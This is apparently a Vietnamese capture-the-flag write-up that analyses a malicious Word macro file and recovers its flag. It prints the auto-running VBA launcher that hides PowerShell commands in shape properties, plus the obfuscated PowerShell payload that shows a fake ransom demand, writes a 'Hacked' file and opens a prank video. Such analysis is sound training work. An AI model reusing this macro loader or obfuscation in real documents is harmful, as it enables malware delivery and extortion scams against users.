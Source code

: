 ![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-15%20223359.png)

Đề cho một file 'docm' chứa malware. Sử dụng tool olevba để phân tích:
```
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
'Flag format: KCSC{H1_1m_sUcky_+$phlac}'
Sub Auto_Open()
On Error Resume Next
Dim objCmdShape As Shape
Dim hiddenkey As Long
Dim cmdParams() As String
Dim cmdCommand As String
Dim cmdType As String
Dim cmdObj As Object
hiddenkey = RGB(13, 3, 7)
If Val(Application.Version) > 14 Then
    For x = 1 To ActiveDocument.Shapes.Count
        Set objCmdShape = ActiveDocument.Shapes(x)
        If objCmdShape.Shadow.ForeColor.RGB = hiddenkey Then
            cmdType = objCmdShape.Name
            cmdCommand = objCmdShape.AlternativeText
            cmdParams = Split(objCmdShape.TextFrame.TextRange.Text, "|")
            Set cmdObj = Interaction.CreateObject(cmdType)
            VBA$.[Interaction].CallByName! cmdObj, [cmdCommand], VbMethod, "PoWerShElL", Trim(cmdParams(0)), cmdParams(1), cmdParams(2)
            objCmdShape.Delete
            Exit For
        End If
    Next
Else
    MsgBox "Microsoft Word is not installed on this computer or its version is lower than Microsoft Word 2013", vbCritical
    Application.Quit
End If
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub

+----------+--------------------+---------------------------------------------+
```

Được phần 1 của flag `Flag format: KCSC{H1_1m_sUcky_+$phlac}`. Khả năng phần 2 là giá trị của biến `$phlac` trong powershell được thi thực thi bằng script ở trên. Cho nên bước tiếp theo ta sẽ phân tích động. Cho chạy file `Flag.docm` (nhớ là tắt hết các phần mềm anti viruss và thực thi trên máy ảo), thì thấy môt mà hình terminal được bật lên và dẫn tới một video trên youtube (Cảnh bảo: đeo tai nghe trước khi chạy file =)) ).

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20180624.png)

Mở file trong đường dẫn `"C:\Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx"` để xem lịch sử cmd đã thực thi. Thấy có ps được chạy khi mở file 'Flag.docm'

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20181608.png)

```
${p4yL04D}=('Mộ'+'t '+'s'+'ố '+'tà'+'i '+'l'+("{1}{0}" -f 'u ','iệ')+'qua'+'n '+'trọ'+'ng '+'của'+' '+'b'+'ạn '+'đ'+'ã '+'bị'+' '+'m'+'ã '+(("hóa!!`nĐể "+'')+'')+("{0}{1}" -f 'đư','ợc')+' '+'hướ'+'ng '+'d'+'ẫn '+'giả'+'i '+'m'+'ã, '+'bạn'+' '+'cầ'+'n '+("{1}{0}" -f'uy','ch')+'ể'+'n '+'kh'+("{1}{0}"-f'ản ','o')+'1'+("{0}{1}"-f '00','k ')+'và'+'o '+'s'+'ố '+'tài'+' '+("{1}{0}" -f'ả','kho')+'n'+' '+(("sau:`n1010107112000`nChủ "+'')+'')+'tà'+'i '+'kh'+("{1}{0}" -f ':','oản')+' '+'N'+'guy'+'ễn '+'Th'+("{1}{0}" -f' ','anh')+(("Long`nNgân "+'')+'')+'h'+("{0}{1}" -f 'àng',' ')+'M'+'B '+'Ba'+'nk')
&('A'+'d'+("{0}{1}"-f 'd-T','ype')) -AssemblyName ("{1}{6}{0}{3}{5}{4}{2}"-f 't.V',("{0}{1}"-f 'Micr','os'),'ic','is',("{1}{0}" -f 's','lBa'),'ua','of');
seT-ItEM ("V"+"arIab"+"le:hVI96") ( [TypE]("{4}{5}{7}{1}{3}{6}{0}{8}{2}" -F 'c.InTER','b','ION','a','miCrOsOf','t.ViS','sI','uAl','ACT') ) ;
 SEt-itEM ('vA'+'Riab'+'le:'+'O7v'+'8k')  (  [TYPE]("{4}{5}{3}{2}{0}{1}"-F '.MSGBOxSt','yLe','.VIsualbASic','Soft','MiC','rO')  ) ;
( get-vARIABlE ('hvI9'+'6')  -valUEONl )::MsgBox(${p4yL04D},  $O7V8K::Information, ("{1}{4}{8}{11}{9}{0}{2}{3}{6}{10}{7}{5}" -f 'cùng thương','Chú',' ','t','ng tô','in','i',' t','i ',' ','ếc báo',' vô'));
.("{3}{0}{1}{2}" -f("{1}{0}"-f 'tp','-Ou'),'u','t',("{0}{1}"-f'W','rite')) ${p4yL04D} | .("{1}{0}{2}" -f("{0}{1}{2}"-f'u','t-','Fil'),'O','e') -Encoding ("{1}{0}"-f'f8','ut') "C:\Users\$env:UserName\Desktop\Hacked.txt"
${Ws`CripT} = .("{0}{2}{1}"-f'New-O','ct','bje') -com ("{1}{0}{2}"-f'c','ws','ript.shell');
 1..50 | .('%') { ${w`SCri`Pt}."s`endK`EYs"([char]175) };
&("{2}{0}{1}" -f 't','art-Process','S') ("{2}{1}{0}" -f 'lore','p','iex') -ArgumentList ("{1}{6}{2}{0}{5}{3}{7}{4}"-f 'ww.youtube.c','-k ','://w','m/w','pRqs4k','o','https','atch?v=BMEdB')
${phlac}=("{2}{5}{0}{4}{1}{3}" -f 'y',("{2}{1}{0}" -f ("{2}{1}{0}" -f'H',("{0}{1}" -f'_a','h1'),'_m3'),'0t','u_g'),("{0}{2}{1}"-f 'Tr0',("{0}{1}" -f '4',("{0}{1}" -f("{0}{1}"-f'lw','@r'),'3')),("{1}{0}"-f'_m','ll')),'i','0','_');
.("{4}{0}{3}{2}{1}"-f'-Va','e','abl','ri',("{0}{1}" -f'R',("{0}{1}"-f'emo','ve'))) ("{1}{0}" -f 'c',("{0}{1}" -f'phl','a'))
```

Tìm thấy được biến $phlac

```
${phlac}=("{2}{5}{0}{4}{1}{3}" -f 'y',("{2}{1}{0}" -f ("{2}{1}{0}" -f'H',("{0}{1}" -f'_a','h1'),'_m3'),'0t','u_g'),("{0}{2}{1}"-f 'Tr0',("{0}{1}" -f '4',("{0}{1}" -f("{0}{1}"-f'lw','@r'),'3')),("{1}{0}"-f'_m','ll')),'i','0','_');
```
Chạy câu lệnh trên trong terminal và dùng `echo $phlac` để xem giá trị của biến 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20182858.png)

Flag = KCSC{H1_1m_sUcky_Tr0ll_m4lw@r3_y0u_g0t_m3_ah1Hi}


